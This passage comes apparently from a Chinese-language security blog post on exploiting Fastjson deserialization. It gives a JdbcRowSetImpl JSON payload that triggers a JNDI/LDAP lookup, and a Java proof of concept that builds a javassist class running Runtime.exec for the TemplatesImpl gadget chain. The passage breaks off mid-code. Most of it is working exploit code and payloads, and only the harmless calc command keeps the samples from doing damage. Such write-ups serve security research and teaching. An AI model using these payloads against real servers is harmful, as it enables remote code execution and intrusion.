 ![image.png](https://y4er.com/img/uploads/20200426110423.png)

setDataSourceName()和setAutoCommit()满足setter自动调用的条件，当我们传入对应json键值对时就会触发setter，进而触发jndi链接。payload如下

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/#Calc", "autoCommit":true}
```

#### TemplatesImpl利用链
条件苛刻
1. 服务端使用parseObject()时，必须使用如下格式才能触发漏洞：`JSON.parseObject(input, Object.class, Feature.SupportNonPublicField)`
2. 服务端使用parse()时，需要`JSON.parse(text1,Feature.SupportNonPublicField)`

poc

```java
package org.chabug.fastjson.run;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.tomcat.util.codec.binary.Base64;

public class JDK7u21 {
    // 参考https://y4er.com/post/ysoserial-commonscollections-2/
    public static byte[] getevilbyte() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get(test.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Y4er" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));

        return cc.toBytecode();
    }


    //main函数调用以下poc而已
    public static void main(String args[]) {
        try {
            byte[] evilCode = getevilbyte();
            String evilCode_base64 = Base64.encodeBase64String(evilCode);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String text1 = "{\"@type\":\"" + NASTY_CLASS + "\",\"_bytecodes\":[\"" + evilCode_base64 + "\"],'_name':'asd','_tfactory':{ },\"_outputProperties\":{ }," + "\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}\n";
            System.out.println(text1);
            ParserConfig config = new ParserConfig();
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static class test {

```